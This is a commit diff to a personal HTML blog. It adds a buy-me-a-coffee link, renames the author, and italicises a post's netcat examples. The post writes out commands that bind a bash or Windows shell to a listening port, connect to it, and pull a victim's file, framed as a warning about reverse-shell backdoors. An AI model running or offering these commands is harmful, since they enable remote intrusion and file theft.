

Before and after one commit to hurricanemark/tre-blog, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 240-2800 px from the top of the page at 60% size. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
feat: add buy-me-a-coffee link

```diff
--- a/index.html
+++ b/index.html
@@ -42,16 +42,16 @@
                             <div>
                                 <ul>
                                     <li>Create a backdoor if your system is Linux:</li>
-                                    <span>nc -l -p 2222 -e /bin/bash</span>
+                                    <span><i>nc -l -p 2222 -e /bin/bash</i></span>
 
                                     <li>Create a backdoor if your system is a windows:</li>
-                                    <span>nc -l -p 1337 -e hack.exe</span>
+                                    <span><i>nc -l -p 1337 -e hack.exe</i></span>
 
                                     <li>Then, this will open a listener on your system (192.168.1.35) and pipe the command shell or the Linux bash shell to the hacker system.</li>
-                                    <span>nc 192.168.1.35 2222</span>
+                                    <span><i>nc 192.168.1.35 2222</i></span>
 
                                     <li>To steal your file, the hacker will issue the following command from his computer.</li>
-                                    <span>nc -v -w 20 -p 8888 -l yourBankStatement.pdf</span>
+                                    <span><i>nc -v -w 20 -p 8888 -l yourBankStatement.pdf</i></span>
                                 </ul>
                             </div>
                             <p>Heads up, your Windows Security has a setting 'Realtime protection' that will block this reverse shell attack. Make sure your computer has it enabled.</p>
@@ -122,7 +122,7 @@
                                 </div>
                                 <div class="col-md-12">
                                     <div class="send">
-                                        <button class="px-btn theme"><span>Submit</span> <i class="arrow"></i></button>
+                                        <button class="px-btn theme"><a href="mailto:mark@rolemi.com"></a><span>Submit</span> <i class="arrow"></i></button>
                                     </div>
                                 </div>
                             </div>
@@ -143,8 +143,9 @@
                                 <div class="media-body">
                                     <h6>Hello, I'm<br> Mark Nguyen</h6>
                                 </div>
+                                <a href="https://www.buymeacoffee.com/hurricanemark">Buy me a coffee</a>
                             </div>
-                            <p>I develop free software and provide open source to help those who want to learn.  Human are welcome!</p>
+                            <p>I develop free software and provide open source solutions to help those who want to learn.  Human are welcome!</p>
                         </div>
                     </div>
                     <!-- End Author -->
@@ -171,7 +172,7 @@
                                     </div>
                                     <div class="lpa-meta">
                                         <a class="name" href="#">
-                                            Mark Nguyen
+                                            Hurricanemark
                                         </a>
                                         <a class="date" href="#">
                                             Aug 13, 2022
@@ -191,7 +192,7 @@
                                     </div>
                                     <div class="lpa-meta">
                                         <a class="name" href="#">
-                                            Mark Nguyen
+                                            Hurricanemark
                                         </a>
                                         <a class="date" href="#">
                                             Oct 20, 2022
@@ -211,7 +212,7 @@
                                     </div>
                                     <div class="lpa-meta">
                                         <a class="name" href="#">
-                                            Mark Nguyen
+                                            Hurricanemark
                                         </a>
                                         <a class="date" href="#">
                                             Oct 20, 2022
```
